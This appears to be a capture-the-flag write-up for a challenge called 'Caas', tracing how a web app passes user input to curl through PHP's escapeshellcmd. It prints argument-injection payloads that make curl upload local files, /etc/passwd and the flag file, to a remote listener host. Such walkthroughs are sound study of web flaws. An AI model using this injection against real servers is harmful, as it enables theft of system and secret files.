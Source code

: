 # Caas
![plot](../Pasted image 20210419183444.png)

The website gives the ability to request a URL through javascript. The following shows the javascript request.
```bash
...snip...
fetch('/api/curl', {
      method: 'POST',
      body: `ip=${host}`,
      headers: {
        'Content-Type': 'application/x-www-form-urlencoded'
      }
    })
...snip...
```

Reading the source code shows the _api/curl_ references the _CurlController_ file and uses the _execute_ function.
```bash
...snip...
$router->new('POST', '/api/curl', 'CurlController@execute' );
...snip...
```

This then gets passed to CommandModel.php as shown
```bash
...snip...
$command = new CommandModel($url);
...snip...
```

Finally, it reaches the point of execution on the file system.
```bash
...snip...
$this->command = "curl -sL " . escapeshellcmd($url);
...snip...
exec($this->command, $output);
...snip...
```

We see that the _escapeshellcmd_ is used and the command being executed is curl. This is not good as it will  do the following " Following characters are preceded by a backslash: ``&#;`|*?~<>^()[]{}$\``, `\x0A` and `\xFF`. `'` and `"` are escaped only if they are not paired. On Windows, all these characters plus `%` and `!` are preceded by a caret (`^`)." Luckily, curl has the ability to read a local file and send it to remote URL with the syntax as shown below.
```bash
$url = '-F password=@/etc/passwd http://example.com';
```

We must investigate where the web server is being hosted so we know where to read the file from. Reading the nginx conf shows the root located at /www
```bash
...snip...
root /www;
...snip...
```

Using this information, we can simply request the flag and send the request to our host machine. However, we must ensure the host is internet accessible. We can send the following command after setting up a nc listener on port 8000.

```bash
curl http://178.62.50.172:31782/api/curl -X POST -d 'ip=-F password=@/www/flag http://<PUBLIC IP ADDRESS>:8000'
```

